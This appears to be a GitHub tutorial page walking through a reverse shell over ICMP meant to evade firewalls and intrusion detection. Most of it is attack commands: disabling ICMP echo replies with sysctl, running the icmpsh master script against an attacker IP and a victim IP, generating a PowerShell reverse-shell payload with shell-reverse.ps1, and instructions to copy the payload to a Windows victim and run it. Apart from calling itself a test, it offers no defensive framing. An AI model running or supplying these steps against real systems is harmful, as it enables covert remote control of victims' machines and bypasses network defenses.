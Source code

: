 
> Normally, in a well `"sanitized"` environment, there are `firewalls`, `IPS`, `IDS`, etc. .... believe it or not, there are companies that do use them, and it may be that giving you a reverse shell on the `TCP` protocol is difficult or impossible, but what about `ICMP`? (Not to mention UDP), well yes, let's see what we can do with this simple protocol, which can leave a company `out of the game`.

> For this test we will be using the `hackplayers` repo.

---

`sysctl`

> `Ignore` the `ICMP` traffic `echos`

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

`Python Script`

- - __https://raw.githubusercontent.com/bdamele/icmpsh/master/icmpsh_m.py__

> Here we are indicating which is our attacker's ip and the victim's ip, to `"listen"` to those traces traveling through icmp

```
python2.7 icmpsh_m.py <Source Ip> <Victim ip>
```

![ICMP2](https://user-images.githubusercontent.com/84678370/131572547-9d11e942-dfc1-4834-a9b2-72e3cc8fc6f2.png)


`Generate Powershell Command`

> Once you have the `shell-reverse.ps1` script on your machine and having `powershell` installed on our machine, let's generate our command to launch a simple reverse shell over icmp.

`Powershell Kali`

```
sudo apt-get install powershell
```

```
pwsh
```
`Generate Payload & obtain a session`

```powershell
./shell-reverse.ps1 -lhost <ip> -PowershellICMP -web
```

![ICMP1](https://user-images.githubusercontent.com/84678370/131576177-37f6bd4b-132f-4b91-ac8d-f6db3dac3dd0.png)


> Copy the first payload to windows victim and launch it with `powershell`


![ICMP4](https://user-images.githubusercontent.com/84678370/131583001-62ce7682-5097-4426-a823-1f87644e7b61.png)

![ICMP3](https://user-images.githubusercontent.com/84678370/131582967-5cb5b7f1-3a95-4613-9cce-7803ae28fe6d.png)
